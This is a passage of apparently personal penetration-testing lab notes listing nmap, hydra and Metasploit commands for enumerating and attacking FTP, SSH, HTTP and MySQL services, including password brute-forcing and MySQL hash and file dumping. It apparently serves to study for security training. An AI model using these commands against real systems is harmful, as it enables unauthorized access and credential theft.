 		- `nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3` - nmap to brute password
		- `nmap --script ftp-anon -p21 192.119.169.3` - nmap anonymous login script
	- SSH
		- Basic commands
			- - `nmap -p22 -sV -sC -O 192.8.3.3`
			- `nc 192.8.3.3 22` - Banner grabbing
			- `ssh [root@192.8.3.3](<mailto:root@192.8.3.3>) 22`
			- `nmap --script ssh2-enum-algos 192.8.3.3` - nmap enum-alogo script
			- `nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.8.3.3` - nmap ssh hostkey script
			- `nmap -p22 --script ssh-auth-methods --script-args="ssh.user=student" 192.8.3.3` - nmap ssh auth method scripts
			- `ssh student@192.8.3.3`
		- Dictionary attack
			- - `hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh`
			- `nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3`
				- MSF
					- - `use auxiliary/scanner/ssh/ssh_login`
					- `set RHOSTS 192.230.83.3`
					- `set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt`
					- `set STOP_ON_SUCCESS true`
					- `set VERBOSE true`
					- `exploit`
	- HTTP
		- - `nmap -p80 -sV -O 10.4.16.17`
		- `whatweb 10.4.16.17`
		- `http 10.4.16.17`
		- `dirb [<http://10.4.16.17>](<http://10.4.16.17/>)`
		- `browsh --startup-url <http://10.4.16.17/Default.aspx`>
		- `nmap --script=http-enum -sV -p80 10.4.21.207` - http enum nmap script
		- `nmap -sV -p 80 10.4.21.207 -script banner`
		- `nmap --script=http-methods --script-args http-methods.url-path=/webdav/ -p80 10.4.21.207` - http methods nmap script
		- `curl 192.199.232.3 | more` - curl cmd
		- `use auxiliary/scanner/http/brute_dirs` - Directory brute-force
		- `use auxiliary/scanner/http/http_version` - http version
	- MySQL
		- metasploit
			- - `msfconsole`
			- `use auxiliary/scanner/mysql/mysql_schemadump` - schema dump
			- `set RHOSTS 192.49.51.3`
			- `set USERNAME root`
			- `set PASSWORD "”`
			- `exploit`
			- `use auxiliary/scanner/mysql/mysql_writable_dirs` - writable dirs
			- `set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt`
			- `set RHOSTS 192.49.51.3`
			- `set VERBOSE false`
			- `set PASSWORD "”`
			- `exploit`
			- `use auxiliary/scanner/mysql/mysql_file_enum` - File enum
			- `set RHOSTS 192.49.51.3`
			- `set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt`
			- `set PASSWORD "”`
			- `exploit`
			- `use auxiliary/scanner/mysql/mysql_hashdump` - hash dump
			- `set RHOSTS 192.49.51.3`
			- `set USERNAME root`
			- `set PASSWORD "”`
			- `exploit`
		- Brute forcing
			- `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.222.16.3 mysql`
			- MSFCONSOLE